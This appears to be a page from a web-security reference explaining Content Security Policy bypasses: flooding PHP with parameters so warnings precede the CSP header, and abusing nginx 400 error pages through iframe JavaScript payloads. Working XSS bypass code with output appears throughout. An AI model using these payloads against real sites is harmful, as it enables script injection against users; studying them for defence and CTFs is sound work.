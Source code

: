 ```yaml
---
title: "CSP Bypass"
description: "CSP Bypass."
lead: "CSP Bypass."
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "client-side"
weight: 630
toc: true
---
```


## Definition

Content Security Policy (CSP) is a HTTP response headers that helps prevent Cross-Site Scripting (XSS), clickjacking, and other client-side injection attacks. It allows website owners to specify which sources of content are trusted, ensuring that browsers only execute or render resources from those approved sources.

- [Content Security Policy (CSP) - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

## Response Headers Manipulation

### PHP Headers Bypass using Warnings

PHP is known for buffering the response to 4096 bytes by default, so by providing enough data inside warnings, the response will be sent before the CSP header, causing the header to be ignored.

![PHP Headers Bypass using Warnings](./images/php-headers-bypass-warning.jpg)

Challenge source code:

```php
<?php
header("Content-Security-Policy: default-src 'none';");
if (isset($_GET["xss"])) echo $_GET["xss"];
```

Maximum parameters by default in PHP:
- `$_GET`: 1000 parameters - [PoC](https://gist.github.com/frevadiscor/e27177003e0f86f8b381e36d320b22d2)
- `$_POST`: 1000 parameters - [PoC](https://gist.github.com/frevadiscor/4ca1ecde477dba288176ff5fc674de17)
- `$_FILES`: 20 files - [PoC](https://gist.github.com/frevadiscor/855b960d41f4b8cf3b31450414ea5b84)

```python
# ------------------[ <= 1000 parameters ]------------------
>>> resp = requests.get('http://pilv.ar/?' + 'a=&' * 1000)
>>> resp.text
''
>>> resp.headers.get('Content-Security-Policy')
"default-src 'none';"
# ------------------[ > 1000 parameters ]------------------
>>> resp = requests.get('http://pilv.ar/?' + 'a=&' * 1001)
>>> resp.text
'<br />\n<b>Warning</b>:  PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in <b>Unknown</b> on line <b>0</b><br />\n<br />\n<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/index.php</b> on line <b>2</b><br />\n'
>>> resp.headers.get('Content-Security-Policy')
>>>
```

**References:**
- [pilvar XSS challenge](https://x.com/pilvar222/status/1784618120902005070)
- [Write-ups to justCTF [*] 2020 by @terjanq](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points)

### Abuse 400 Errors

Use `%ZZ` or other non-valid URL-encoded characters to trigger a `Bad Request`. The response does not contain any security headers, such as `Content-Security-Policy`.

Example with `nginx` as a reverse proxy:

```js
$ curl -v 'http://localhost/%ZZ'
[...]
< HTTP/1.1 400 Bad Request
< Server: nginx/1.24.0
< Date: Wed, 01 May 2024 10:28:11 GMT
< Content-Type: text/html
< Content-Length: 157
< Connection: close
<
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.24.0</center>
</body>
</html>
```

Location: `about:blank`
```js
document.body.innerHTML="<iframe name=i src='/%ZZ' />"
i.eval("alert(location.href)")
```

Location: `http://target.com/%ZZ`
```js
document.body.innerHTML="<iframe name=i src='/%ZZ' />"
i.onload=setTimeout
i.Event.prototype.toString=RegExp.prototype.toString
i.Event.prototype.flags="-alert(location.href)"
```

**References:**
- [Arbitrary Parentheses-less XSS against strict CSP policies](https://terjanq.medium.com/arbitrary-parentheses-less-xss-e4a1cf37c13d)
- [XSS with CSP bypass leads to diagrams backdoor in jgraph/drawio](https://huntr.com/bounties/4c1c5db5-210f-4d7e-8380-b95f88fdb78d)